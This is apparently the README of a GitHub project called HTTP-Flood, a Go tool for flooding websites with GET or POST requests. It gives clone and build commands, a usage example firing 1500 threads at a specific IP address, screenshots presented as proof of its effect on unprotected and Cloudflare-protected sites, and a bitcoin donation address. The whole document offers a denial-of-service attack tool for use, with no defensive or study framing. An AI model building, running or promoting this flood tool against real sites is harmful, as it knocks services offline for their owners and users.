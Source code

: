 # HTTP-Flood
Just simple httpflood

## Install
```sh
git clone https://github.com/LSD00/HTTP-Flood
cd HTTP-Flood
go mod init http 
go get github.com/valyala/fasthttp
go build 
```
## Usage 
```sh
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500
```

## Power-proof
### Non-Protect
![alt-text](https://i.imgur.com/2WQ4jk6.png)
### Cloudflare-Low 
![alt-text](https://i.imgur.com/8bxScW1.png)
## Donate 
btc: 3JzWqmqH6YwXVVoBWsTuSgJg3qQXNHcgPp
